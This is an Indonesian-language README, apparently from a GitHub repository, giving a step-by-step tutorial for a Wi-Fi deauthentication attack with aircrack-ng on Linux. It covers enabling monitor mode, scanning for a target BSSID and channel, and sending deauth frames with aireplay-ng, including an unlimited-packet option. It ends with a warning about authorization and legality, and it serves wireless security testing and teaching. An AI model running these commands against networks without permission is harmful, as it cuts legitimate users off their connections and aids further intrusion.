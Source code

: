 ![English](README.md) / Bahasa
# Deauthentication Attack dengan `aircrack-ng` di Linux

Berikut panduan dasar untuk melakukan serangan deauth menggunakan `aircrack-ng` pada sistem berbasis Ubuntu/Debian (mungkin identik pada sistem lain):

---

## Prasyaat

- Kartu Jaringan yang support mode monitor dan packet injection (contoh: Atheros AR9565)
- `aircrack-ng` terpasang, jika belum:
  
  ```bash
  sudo apt install aircrack-ng
  ```

## Langkah-langkah

1. **Buka Terminal**: Tekan `Ctrl + Alt + T` untuk membuka terminal.

2. **Periksa Antarmuka Jaringan**: Cek nama antarmuka jaringanmu (contoh: wlan0, wlp3s0), gunakan perintah:
   
    ```bash
    iwconfig
    ```

3. **Masukkan Antarmuka jaringan ke mode monitor**: Pakai `airmon-ng`. Ganti `wlan0` dengan nama antarmuka jaringanmu:
   
    ```bash
    sudo airmon-ng start wlan0
    ```
    Mungkin airmon-ng akan mengganti nama antarmukamu (contoh: `wlan0mon`, `wlp3s0mon`).

4. **Cek Ulang Nama Antarmuka Jaringan**: Gunakan kembali `iwconfig`:

   ```bash
   iwconfig
   ```
   Cek apakah nama antarmuka berubah (contoh: `wlan0mon` `wlp3s0mon`).

5. **Pidai Jaringan}**: Gunakan `airodump-ng` untuk memindai jaringan sekitar dan catat channel dan BSSID (alamat MAC) target:

   ```bash
   sudo airodump-ng wlan0mon
   ```
   Ini akan memindai jaringan di semua channel. Tekan `Ctrl+C` untuk berhenti.

6. **Pindai Jaringan Target**: Setelah channel target diketahui, pakai `--channel` dan pindai ulang.
   
   ```bash
   sudo airodump-ng wlan0mon --channel 1
   ```
   Gantu `1` dengan channel targetmu.

7. **Jalankan Serangan Deauthentication**: Buka terminal baru dan lakukan serangan dengan:

   ```bash
   sudo aireplay-ng -0 5 -a <BSSID> wlan0mon
   ```
   Ganti `<BSSID>` dengan BSSID target.

   `-0` diperlukan untuk deauthentication.\
   `5` adalah jumlah berapa kali paket deauth dikirimkan. Atur sesuai kebutuhan. `0` berarti tanpa batas.

8. **Pantau AKtiviats**: Kembali ke layar `airodump-ng`. perangkat yang terputus dan mencoba menyambung ulang harusnya terlihat.

9. **Matikan Mode Monitor**: Setelah selesai, matikan mode monitor dengan:

   ```bash
   sudo airmon-ng stop wlan0mon
   ```
   Ganti `wlan0mon` dengan nama antarmuka jaringanmu jika berbeda.

## Catatan!!
- **Peringatan**: Serangan deauthentication dapat menjadi ilegal jika dilakukan tanpa otorisas yang tepat. Pastikan Anda memiliki izin sebelum melakukan pengujian tersebut.
- Gunakan secara bijak dan di lingkungan terkontrol.
- Perhatikan hukum dan peraturan yang terkait dengan keamanan jaringan nirkabel di wilayah Anda
